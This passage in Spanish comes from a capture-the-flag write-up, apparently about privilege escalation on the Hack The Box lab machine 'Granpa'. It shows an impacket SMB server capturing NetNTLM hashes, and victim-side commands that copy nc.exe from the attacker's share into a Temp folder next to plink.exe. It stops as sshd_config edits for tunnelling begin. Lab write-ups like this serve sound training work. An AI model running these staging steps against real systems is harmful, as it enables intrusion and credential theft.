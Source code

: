 Antes de ejecutar el programa, vamos a transferir el archivo `nc.exe` a la máquina víctima:

```bash
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.14,1041)
[*] AUTHENTICATE_MESSAGE (HTB\GRANPA$,GRANPA)
[*] User GRANPA\GRANPA$ authenticated successfully
[*] GRANPA$::HTB:9b79014814b02ec500000000000000000000000000000000:fb3cb214046af8b85e0b4e269e6cf87ff6bbe6dd226641f0:aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
[*] Closing down connection (10.10.10.14,1041)
[*] Remaining connections []
[*] Incoming connection (10.10.10.14,1043)
[*] AUTHENTICATE_MESSAGE (HTB\GRANPA$,GRANPA)
[*] User GRANPA\GRANPA$ authenticated successfully
[*] GRANPA$::HTB:76388b43cfb1010a00000000000000000000000000000000:547480074db8df31be922058c85eadcca897e7868d103ba7:aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
[*] Closing down connection (10.10.10.14,1043)
[*] Remaining connections []
```

```bash
copy \\10.10.14.16\smbFolder\nc.exe nc.exe
copy \\10.10.14.16\smbFolder\nc.exe nc.exe
        1 file(s) copied.

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\WINDOWS\Temp\Privesc

09/21/2021  05:14 AM    <DIR>          .
09/21/2021  05:14 AM    <DIR>          ..
09/21/2021  04:59 AM            28,160 nc.exe
09/21/2021  05:07 AM           646,384 plink.exe
               2 File(s)        674,544 bytes
               2 Dir(s)   1,317,138,432 bytes free

C:\WINDOWS\Temp\Privesc>
```

Debemos tener en cuenta que necesitamos hacer algunos cambios en nuetra máquina de atacante; primero editamos el archivo `/etc/ssh/sshd_config` modificando los sigueintes parámetros:
